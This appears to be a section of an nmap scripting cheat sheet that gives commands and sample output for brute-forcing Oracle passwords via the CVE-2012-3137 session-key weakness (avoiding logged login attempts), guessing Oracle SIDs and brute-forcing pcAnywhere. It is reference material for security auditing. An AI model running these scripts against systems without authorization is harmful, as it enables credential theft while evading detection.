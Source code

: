 

## Oracle - Brute-Force-stealth                  
_Exploits the CVE-2012-3137 vulnerability, a weakness in Oracle's O5LOGIN authentication scheme_ The vulnerability exists in Oracle 11g R1/R2 and allows linking the session key to a password hash_ When initiating an authentication attempt as a valid user the server will respond with a session key and salt_ Once received the script will disconnect the connection thereby not recording the login attempt_ The session key and salt can then be used to Brute-Force the users password_
     
     root@hostname: ~/ # nmap --script oracle-brute-stealth -p 1521 --script-args oracle-brute-stealth.sid=ORCL 192.168.1.12

     |PORT     STATE  SERVICE REASON
     |1521/tcp open  oracle  syn-ack
     | oracle-brute-stealth:
     |   Accounts
     |     dummy:$o5logon$1245C95384E15E7F0C893FCD1893D8E19078170867E892CE86DF90880E09FAD3B4832CBCFDAC1A821D2EA8E3D2209DB6*4202433F49DE9AE72AE2 - Hashed valid or invalid credentials
     |     nmap:$o5logon$D1B28967547DBA3917D7B129E339F96156C8E2FE5593D42540992118B3475214CA0F6580FD04C2625022054229CAAA8D*7BCF2ACF08F15F75B579 - Hashed valid or invalid credentials
     |   Statistics
     |_    Performed 2 guesses in 1 seconds, average tps: 2




## oracle-sid - Brute-Force                     
_Guesses Oracle instance/SID names against the TNS-listener_
     
     root@hostname: ~/ # nmap --script=oracle-sid-brute --script-args=oraclesids=/path/to/sidfile -p 1521-1560 192.168.1.12
     root@hostname: ~/ # nmap --script=oracle-sid-brute -p 1521-1560 192.168.1.12

     |PORT     STATE SERVICE REASON
     |1521/tcp open  oracle  syn-ack
     | oracle-sid-brute:
     |   orcl
     |   prod
     |_  devel




## pcAnywhere - Brute-Force                     
_Performs Brute-Force password auditing against the pcAnywhere remote access protocol_
     
     root@hostname: ~/ # nmap --script=pcanywhere-brute 192.168.1.12
